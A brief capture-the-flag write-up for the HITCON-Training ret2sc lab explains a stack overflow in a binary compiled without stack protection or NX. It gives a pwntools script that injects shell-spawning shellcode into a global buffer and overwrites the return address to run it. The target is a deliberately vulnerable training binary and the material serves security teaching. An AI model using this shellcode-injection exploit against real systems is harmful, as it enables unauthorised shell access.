


# HITCON-Training lab3

## binary analysis



> Makefile
```
ret2sc:ret2sc.c
	gcc -m32 -fno-stack-protector -z execstack ret2sc.c -o ret2sc
```

This is simple overflow problem.

This binary was compiled with `-z execstack` option and it doesn't have NX bit option.

So, write shellcode to `name` and change return address to `name` address.



`name` address is `0x804A060`.

## solve

```python
from pwn import *

context.arch = "i386"
context.log_level = "DEBUG"

p = process("./ret2sc")

shellcode = asm(shellcraft.sh())
# "A"*24 ~ "A"*39
payload = "A"*32 + p32(0x804A060)

p.sendlineafter("Name:", shellcode)
p.sendlineafter("best:", payload)

p.interactive()
```